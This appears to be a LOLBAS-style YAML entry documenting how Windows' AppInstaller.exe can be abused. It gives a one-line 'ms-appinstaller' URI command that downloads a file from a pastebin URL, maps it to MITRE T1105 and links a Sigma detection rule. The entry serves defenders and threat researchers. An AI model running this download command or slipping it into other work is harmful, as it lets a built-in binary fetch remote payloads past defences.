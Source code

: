 ```yaml
---
Name: AppInstaller.exe
Description: Tool used for installation of AppX/MSIX applications on Windows 10
Author: 'Wade Hickey'
Created: 2020-12-02
Commands:
  - Command: start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw
    Description: AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\<RANDOM-8-CHAR-DIRECTORY>
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_1.11.2521.0_x64__8wekyb3d8bbwe\AppInstaller.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/dns_query/dns_query_win_lolbin_appinstaller.yml
Resources:
  - Link: https://twitter.com/notwhickey/status/1333900137232523264
Acknowledgement:
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```

